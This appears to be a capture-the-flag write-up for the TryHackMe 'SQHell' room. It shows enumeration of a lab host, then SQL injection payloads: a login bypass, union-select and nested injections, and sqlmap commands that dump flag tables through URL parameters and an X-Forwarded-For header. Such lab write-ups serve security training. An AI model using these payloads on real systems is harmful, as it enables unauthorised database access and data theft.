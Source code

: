 # SQHell

Link to the room: https://tryhackme.com/room/sqhell

## Let's go!

Setting IP variable

```
export IP=10.10.68.254
```

## Enumeration

### Nmap scan 

```
Port 22 is open
Port 80 is open
```

Nothing out of the ordinary; let's dig deeper.

```
nmap -p22,80 -sV -sC -Pn -T4 -oA 10.10.68.254 10.10.68.254
```

```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Home

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
The ssh isn't useful without the credentials, so let's focus on the webserver for now. We'll run a gobuster scan while we visit the page.

### Gobuster 

```
/login                (Status: 200) [Size: 1763]
/post                 (Status: 200) [Size: 21]  
/register             (Status: 200) [Size: 2593]
/user                 (Status: 200) [Size: 21]  
```

## Visiting the webserver

![website](webserver_landing_page.PNG)

### Login page

![login page](login_page.PNG)

I tried the default credentials but to no avail. As the room revolves around SQL injection, let's fire up burp suite and send the request to the repeater to try some SQL injection for authorization bypass manually.

```
POST /login HTTP/1.1
Host: 10.10.68.254
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Origin: http://10.10.68.254
Connection: close
Referer: http://10.10.68.254/login
Upgrade-Insecure-Requests: 1

username=admin'+or+'1'%3d'1&password=password
```

On the third try, managed to bypass the login and get the flag (you'll see it in the response). Don't forget to URL encode the request!
You can find the list of the different commands here: https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/.

### Posts page

Visiting /post, we're greeted with `Missing parameter: id`. This shows that the page requires an id parameter. Playing around with it we can see that we're able to mess around with the page and it is indeed vulnerable to sql injection!

```
http://10.10.68.254/post?id=-1 union select 1,2,user(),4
```

![post](post_id_user.PNG)

Let's fire up sqlmap and beat it up. A good practice is to intercept the request using burp suite and then saving it. I saved the request as sqhell_post.request.

**Sqlmap for /post**

After several tries dumping the database and then tables, the final command is:

```
sqlmap -r sqhell_post.request --dbms mysql -D sqhell_5 -T flag --dump 
```

### Register page

This one is tricky; first, it won't let you register a new user. However, the fact that it takes in data gives us some room to work in. Good thing our burp suite was running in the background, and we were able to identify the user-check parameter. 

```
http://10.10.68.254/register/user-check?username=a
```

Let's save the request as sqhell_register.request and can try sqlmap on this.

**Sqlmap for /register**

```
sqlmap -r sqhell_register.request --dbms mysql -D sqhell_3 -T flag --dump
```

### Terms and Conditions page

Before moving on to the users, let's take a look at the terms and conditions page, there we'll find a massive hint which states:

```
iii: We log your IP address for analytics purposes
```

This means that the site identifies the IP address of the user connecting to their web server through an HTTP header. X-Forwarded-For is an HTTP header field that is considered as a de facto standard for this purpose. For this, our sqlmap command will differ slightly as we'll be using the URL and header switch for this task.

**Sqlmap for /terms-and-conditions**

```
sqlmap --dbms mysql --headers="X-forwarded-for:1*" -u http://10.10.68.254/ -D sqhell_1 -T flag --dump
```

### User login

This one, by far, was the most difficult one to come across. At first sight, it seems like any other SQL injection inside the `user?id=` parameter; however, after beating it up several times with sqlmap, I couldn't retrieve the flag. Good thing the ever so generous Mr Adam Langley gave us a following hint: *Well, dreams, they feel real while we're in them right?* 

Now, this is a quote from the movie inception. As any normal (arguable, but okay) pentester would do, we can google the term sql injection inception! This brings us to an article that refers to this notion of "inception" injection simply as Nested SQL injection. This gives us an idea of what to do next. Let's fire up burp and try Nested attack on the webserver.

Trying the following commands gives us an idea of where to start.

```
http://10.10.68.254/user?id=2 union all select 1,2,3 from users#
```

![user sql injection](sqhell_user_injection.PNG)

This shows that we were successfully able to overwrite the database. Let's nest another SQL injection inside it and try to retrieve the flag.

```
http://10.10.68.254/user?id=2 union all select "1 union select 1,flag,3,4 from flag-- -",1,2 from users#
```

![sql user flag](sql_user_flag_redacted.png)

Success, we were finally able to retrieve the flag!
